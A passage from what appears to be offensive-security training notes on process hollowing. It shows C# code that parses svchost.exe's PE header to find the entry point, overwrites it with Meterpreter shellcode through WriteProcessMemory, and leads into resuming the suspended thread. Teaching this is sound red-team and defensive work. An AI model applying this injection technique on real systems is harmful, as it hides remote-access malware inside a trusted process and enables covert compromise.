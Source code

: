 To parse the PE header, we must read the content at offset 0x3C and use that as a second offset when added to 0x28, as previously discussed and illustrated in the figure below.

![[OffSec/OSEP/Course/z. images/4fcdad621216b7ecdc29c08f5cb99240_MD5.jpg]]

Figure 5: PE header parsing illustration

To implement this, we convert four bytes at offset 0x3C (_e_lfanew_ field) to an [unsigned integer](https://docs.microsoft.com/en-us/dotnet/api/system.uint32?view=netframework-4.8). As stated previously, this is the offset from the image base to the PE header structure.

Next, we convert the four bytes at offset e_lfanew plus 0x28 into an unsigned integer. This value is the offset from the image base to the EntryPoint.

```
uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);

uint opthdr = e_lfanew_offset + 0x28;

uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);

IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
```

> Listing 44 - Parsing the PE header to locate the EntryPoint

The offset from the base address of **svchost.exe** to the EntryPoint is also called the relative virtual address (RVA). We must add it to the image base to obtain the full memory address of the EntryPoint. This is done on the last line of Listing 44.

We have obtained the address of the EntryPoint so we can generate our Meterpreter shellcode and use _WriteProcessMemory_ to overwrite the existing code as shown below. We must remember to add a DllImport statement for WriteProcessMemory before using it.

```
[DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
...

byte[] buf = new byte[659] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8...

WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
```

> Listing 45 - Overwriting the EntryPoint of svchost.exe with shellcode

Now that everything is set up correctly, we'll start the execution of our shellcode. In the previous techniques, we have called _CreateRemoteThread_ to spin up a new thread, but in this case, a thread already exists and is waiting to execute our shellcode.

We can use the Win32 [ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread) API to let the suspended thread of a remote process continue its execution. _ResumeThread_ is an easy API to call since it only requires the handle of the thread to resume, as shown in its [function prototype](<https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread):
